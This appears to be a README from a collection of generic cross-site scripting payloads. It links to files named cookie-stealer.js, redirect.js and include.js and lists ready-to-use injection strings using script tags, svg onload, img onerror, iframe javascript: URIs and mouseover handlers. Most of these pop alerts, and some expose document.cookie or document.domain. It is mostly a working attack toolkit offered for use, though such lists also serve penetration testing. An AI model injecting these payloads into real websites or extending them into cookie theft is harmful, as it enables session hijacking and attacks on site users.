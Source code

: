 # Generic xss payloads.

### Maybe useful payloads:

[cookie-stealer.js](useful/cookie-stealer.js)

[redirect.js](useful/redirect.js)

[include.js](useful/include.js)

### Other:

```js
<script>alert("hello")</script>
document.write(location.search("><svg onload=alert(1)>"))
<svg/onload=alert("hi")>
<img src=x onerror="alert('hello');">
<iframe src=”javascript:alert(1)”></iframe>
<var onmouseover="prompt(1)">move the cursor here</var>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<script>confirm(document.domain)</script>
```

